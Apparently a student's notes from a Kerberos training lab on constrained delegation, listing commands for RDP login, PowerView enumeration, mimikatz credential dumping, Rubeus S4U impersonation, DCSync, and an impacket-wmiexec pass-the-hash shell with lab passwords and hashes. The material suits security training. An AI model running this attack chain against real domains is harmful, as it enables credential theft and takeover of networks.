

---
---

# IML - Kerberos: Ep.12 – Active Directory Certificate Services
IML - Kerberos: Ep.10 – Constrained Delegation


- RDP:

```bash
xfreerdp /v:10.102.178.2 /u:s.villanelle /d:krbtown /p:Summ3r2021! +clipboard +drives /drive:root,/home/kali /dynamic-resolution

```
- Enumerating for constrained delegation:
  - Open Powerview_dev.ps1:

```powershell
. .\Powerview_dev.ps1
Get-DomainComputer -TrustedToAuth
```


- RDP to WKS-02
- Run mimikatz

```powershell
privilege::debug
sekurlsa::logonpasswords

```


- Impersonate a.belridge, using workstation-02\$ as the target host:

```powershell
.\Rubeus.exe s4u /user:workstation-02$ /rc4:[HASH] /domain:krbtown.local /impersonateuser:a.belridge /msdsspn:"ldap/dc01.krbtown.local" /dc:dc01.krbtown.local /ptt

.\Rubeus.exe s4u /user:workstation-02$ /rc4:6ee2e72810d54399a588b424ac22df1e /domain:krbtown.local /impersonateuser:a.belridge /msdsspn:"ldap/dc01.krbtown.local" /dc:dc01.krbtown.local /ptt

```


- Run Mimikatz on an elevated command prompt:

```bash
lsadump::dcsync /user:krbtown\a.belridge

```



- Use wmiexec to get shell:

```bash
impacket-wmiexec [DOMAIN][USERNAME]@[TARGET] -hashes '[LM-HASH]:[NT-HASH]'

impacket-wmiexec krbtown/a.belridge@10.102.93.148 -hashes 'a76a0f6f801d8430903f7f299c18dfc4:ed882753d4665914577c19b6b85ead51'

```


